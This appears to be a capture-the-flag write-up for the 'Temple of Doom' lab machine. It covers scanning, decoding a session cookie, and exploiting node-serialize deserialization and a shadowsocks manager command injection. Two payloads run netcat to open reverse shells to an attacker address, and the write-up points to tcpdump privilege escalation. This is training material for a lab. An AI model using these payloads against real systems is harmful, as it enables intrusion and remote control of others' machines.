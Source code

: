 root@kali ~/D/C/TEMPLE OF DOOM# nmap -sS -T4 -p- 10.0.0.21

PORT    STATE SERVICE
22/tcp  open  ssh
666/tcp open  doom

Found as a cookie.
eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D

Base64 decode:

{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}

"csrftoken" and expiration date don't effect.
Removing the expiration date and csrftoken headers we get the response "Hello Admin" from the server.

SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/nodeadmin/.web/server.js:12:29
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at /home/nodeadmin/.web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:335:12)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:275:10)

Using this payload that allows to get a reverse shell using JavaScript

{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('nc 10.0.0.27 4444 -e /bin/bash',(e,out,err)=>{console.log(out);}); }()"}

we can get a reverse shell.
Need to find an artical!!!!!

python2 -c 'import pty; pty.spawn("/bin/bash")'

root:x:0:0:root:/root:/bin/bash
nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash
fireman:x:1002:1002::/home/fireman:/bin/bash

No SUID files!!!!

pspy64s doesn't find any files

[nodeadmin@localhost home]$ ps aux | grep fireman
root       833  0.0  0.1 301464  4440 ?        S    11:39   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    836  0.0  0.0  37060  3844 ?        Ss   11:39   0:00 /usr/local/bin/ss-manager

nc -u localhost 8839
add: {“server_port":8003, "password":"test", "method":"||nc -e /bin/sh 10.0.0.27 4445 ||"}

sudo -l

User fireman may run the following commands on localhost:
(ALL) NOPASSWD: /sbin/iptables
(ALL) NOPASSWD: /usr/bin/nmcli
(ALL) NOPASSWD: /usr/bin/tcpdump

After finishing the machine I found some write ups and there are a couple of ways to get root, I'll show all of them.

https://gtfobins.github.io/gtfobins/tcpdump/